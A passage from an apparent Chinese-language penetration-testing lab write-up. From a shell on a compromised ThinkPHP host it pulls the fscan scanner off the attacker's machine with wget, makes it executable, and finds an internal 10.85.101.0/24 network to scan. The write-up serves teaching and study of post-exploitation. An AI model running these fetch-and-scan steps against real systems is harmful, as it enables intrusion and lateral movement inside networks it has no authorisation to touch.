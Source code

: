 ## Thinkphp 内网扫描

从攻击机上获取 `fscan` 二进制文件

```shell
(remote) www-data@4c2afff6c232:/tmp$ wget 192.168.200.129/fscan
--2024-07-25 03:35:58--  http://192.168.200.129/fscan
Connecting to 192.168.200.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7100304 (6.8M) [application/octet-stream]
Saving to: 'fscan'

fscan                                               100%[===================================================================================================================>]   6.77M  --.-KB/s    in 0.05s

2024-07-25 03:35:58 (139 MB/s) - 'fscan' saved [7100304/7100304]

(remote) www-data@4c2afff6c232:/tmp$ chmod +x fscan
```

查看网卡信息

```shell
(remote) www-data@4c2afff6c232:/tmp$ ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:C0:A8:64:02
          inet addr:192.168.100.2  Bcast:192.168.100.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2900 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2147 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:9380898 (8.9 MiB)  TX bytes:1208962 (1.1 MiB)

eth1      Link encap:Ethernet  HWaddr 02:42:0A:55:65:03
          inet addr:10.85.101.3  Bcast:10.85.101.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:15 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:1146 (1.1 KiB)  TX bytes:0 (0.0 B)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:5675 errors:0 dropped:0 overruns:0 frame:0
          TX packets:5675 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:3540984 (3.3 MiB)  TX bytes:3540984 (3.3 MiB)
```

发现了一个新的 `10.85.101.0/24` 网段，尝试进行网段扫描
